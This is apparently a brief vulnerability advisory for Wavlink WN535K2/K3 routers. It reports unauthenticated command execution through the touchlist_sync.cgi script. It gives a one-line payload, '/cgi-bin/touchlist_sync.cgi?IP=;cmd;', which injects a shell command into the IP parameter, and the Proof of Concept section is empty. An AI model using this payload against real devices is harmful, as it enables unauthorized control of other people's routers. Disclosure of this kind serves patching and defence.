


###Wavlink touchlist_sync.cgi command execution

#### Exploit Title

Wavlink touchlist_sync.cgicommand execution

#### Exploit Author

webraybtl@webray.com.cn inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.wavlink.com

#### Software Link

https://www.wavlink.com/zh_cn/firmware.html

#### Version

WN535K2/K3

#### Description

There is a command execution vulnerability in wavlink, through which an attacker can gain server privileges

#### Payload used

/cgi-bin/touchlist_sync.cgi?IP=;cmd;

#### Proof of Concept

